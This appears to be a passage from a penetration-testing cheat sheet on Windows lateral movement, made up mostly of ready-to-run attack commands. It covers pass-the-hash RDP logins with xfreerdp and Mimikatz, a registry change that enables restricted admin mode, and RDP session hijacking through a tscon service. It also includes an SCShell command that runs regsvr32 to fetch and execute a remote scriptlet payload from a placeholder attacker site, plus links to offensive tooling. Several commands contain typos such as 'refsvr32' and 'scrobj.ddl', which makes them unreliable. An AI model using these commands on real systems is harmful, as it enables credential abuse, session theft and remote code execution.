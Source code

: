 ### RDP
#### Pass the hash rdp xfreerdp
```
xfreerdp /u:<USER> /d:<DOMAIN> /pth:<NTLM HASH> /v:<TARGET>
```

#### Pass the hash RDP
```
Invoke-Mimikatz -Command "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm<NTLM HASH> /run:'mstsc.exe /restrictedadmin'"
```

- If the admin mode is disabled
```
Enter-PSSession -Computername <TARGET>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

#### Hijack RDP session
```
query user
sc.exe create rdphijack binpath="cmd.exe /c tscon <ID> /dest:<SESSION NAME>"
net start rdphijack
sc.exe delete rdphijack
```

#### Accessing RDP credentials
- Complicated have to access ECPPTX again and try it out

### ChangeServiceConfigA
- https://github.com/SpiderLabs/SCShell
- Uses DCERPC instead of SMB

```
SCShell.exe <TARGET> XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\refsvr32.exe /s /n /u /i://<PAYLOAD WEBSITE>/payload.sct scrobj.ddl" . <USER> <PASSWORD>
SCShell.py
```

### WinRM
- Uses WMI over HTTPS (P 5985 and 5986)
- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs
- https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-6
- https://github.com/Hackplayers/evil-winrm
- https://github.com/bohops/WSMan-WinRM

### DCOM
- https://github.com/SecureAuthCorp/impacket dcom.exec.py
- https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1

### Named Pipes
- https://github.com/nettitude/PoshC2/blob/master/resources/modules/Invoke-Pbind.ps1
